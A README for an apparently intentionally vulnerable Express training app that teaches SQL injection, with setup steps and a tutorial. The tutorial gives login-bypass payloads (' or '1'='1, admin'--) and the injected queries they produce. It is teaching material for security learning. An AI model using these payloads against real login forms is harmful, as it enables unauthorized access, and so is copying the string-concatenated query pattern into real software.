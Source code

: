 # Hands-on Express SQLi

This application is a demonstration prototype just to show how to perform SQLi attack.

## Setting-up

### Deploy on heroku

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy?template=https://github.com/0xdbe/Hands-on-Express-SQLi)

### Deploy on your host

* Install nodejs

* Install dependencies

```console
$ npm install
```

* Start application

```console
$ node app.js
```

## Tutorial

### Always True SQLi

Open http://localhost:3000/ and log in with:

* username: ' or '1'='1
* password: ' or '1'='1

```
SELECT name FROM user where username = '' or '1'='1' and password = '' or '1'='1'
```

You are now log in as "User", but you can do better!

### SQLi with comment

Open http://localhost:3000/ and log in with:

* username: admin'--
* password: a

```
SELECT name FROM user where username = 'admin' --' and password = 'a'
```

You are now log in as "Admin",
